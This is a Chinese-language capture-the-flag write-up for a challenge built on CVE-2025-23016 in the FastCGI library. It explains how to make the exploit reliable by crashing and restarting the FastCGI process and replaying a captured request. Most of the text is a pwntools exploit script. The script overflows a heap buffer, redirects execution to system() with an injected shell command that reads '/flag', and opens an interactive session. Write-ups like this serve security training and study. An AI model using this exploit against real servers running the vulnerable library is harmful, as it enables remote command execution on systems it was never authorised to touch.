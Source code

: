 # D^3CGI

基于 FastCGI 一个简单的 1day: [CVE-2025-23016](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-23016)

Patch: [b0eabcaf4d4f371514891a52115c746815c2ff15](https://github.com/FastCGI-Archives/fcgi2/commit/b0eabcaf4d4f371514891a52115c746815c2ff15)

Blog: [cve-2025-23016-exploiter-la-bibliotheque-fastcgi](https://www.synacktiv.com/publications/cve-2025-23016-exploiter-la-bibliotheque-fastcgi.html)

堆风水过程与漏洞成因分析这里不再赘述，请参考上述 Blog 链接👆

很多选手认为遇到了远程和本地Docker环境有区别的问题，其实并没有。这是设计时考虑在内的需要解决的exploit鲁棒性问题。存在两种情况可能导致本地work的exploit在远程无法work：

1. 远程环境受到其它连接的扰动，内存布局发生了变化；
2. 使用cURL等工具对远程和本地请求时一些请求头例如 Host 长度具有差异；

为了解决这些问题，可以使用如下方式改进 PoC：

1. 通过发送造成缓冲区溢出的请求，使得 lighttpd 预先启动的 fastcgi 进程崩溃重启，重置内存布局；

2. 不直接使用 cURL，而是抓取其请求被转换成 FastCGI 格式后的报文进行重放。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.log_level = "debug"
context.arch = "i386"

def start(argv=[], *a, **kw):
    return remote("127.0.0.1", 9999)
    #return remote("35.220.136.70", 30777)

"""
typedef struct {
    unsigned char version;
    unsigned char type;
    unsigned char requestIdB1;
    unsigned char requestIdB0;
    unsigned char contentLengthB1;
    unsigned char contentLengthB0;
    unsigned char paddingLength;
    unsigned char reserved;
} FCGI_Header;
"""
def makeHeader(type, requestId, contentLength, paddingLength):
    header = p8(1) + p8(type) + p16(requestId) + p16(contentLength)[::-1] + p8(paddingLength) + p8(0)
    return header

"""
typedef struct {
    unsigned char roleB1;
    unsigned char roleB0;
    unsigned char flags;
    unsigned char reserved[5];
} FCGI_BeginRequestBody;
"""
def makeBeginReqBody(role, flags):
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5
    
# crash and restart daemon
io = start()
io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + (p8(0x13) + p8(0x13) + b"b" * 0x26)*1 + p32(0xffffffff) + p32(0xffffffff) + p32(0xdeadbeef)*0x30)
io.close()
pause(3) # restarting...
# curl http://127.0.0.1:9999/ => FastCGI Format
io = start()
io.send(b'\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x01\x9b\x00\x00\x0e\x01CONTENT_LENGTH0\x0c\x00QUERY_STRING\x0b\x01REQUEST_URI/\x0f\x03REDIRECT_STATUS200\x0b\x01SCRIPT_NAME/\x0f\x05SCRIPT_FILENAME/www/\r\x04DOCUMENT_ROOT/www\x0e\x03REQUEST_METHODGET\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0f\x0fSERVER_SOFTWARElighttpd/1.4.79\x11\x07GATEWAY_INTERFACECGI/1.1\x0e\x04REQUEST_SCHEMEhttp\x0b\x04SERVER_PORT8888\x0b\tSERVER_ADDR127.0.0.1\x0b\tSERVER_NAME127.0.0.1\x0b\tREMOTE_ADDR127.0.0.1\x0b\x05REMOTE_PORT36190\t\x0eHTTP_HOST127.0.0.1:8888\x0f\nHTTP_USER_AGENTcurl/8.5.0\x0b\x03HTTP_ACCEPT*/*\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00')
io.close()
# exploit and read '/flag'
io = start()
system_plt = 0x80490c0
io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + (p8(0x13) + p8(0x13) + b"b" * 0x26)*1 + ((p8(0) * 2) * 1) + p32(0xffffffff) + p32(0xffffffff) + p32(0xdeadbeef)*12  + b"aaa; cat /flag >&3".ljust(4*5, b"\x00") +p32(0) * 3 + p32(system_plt) + p32(0xdeadbeef) )
io.interactive()
```
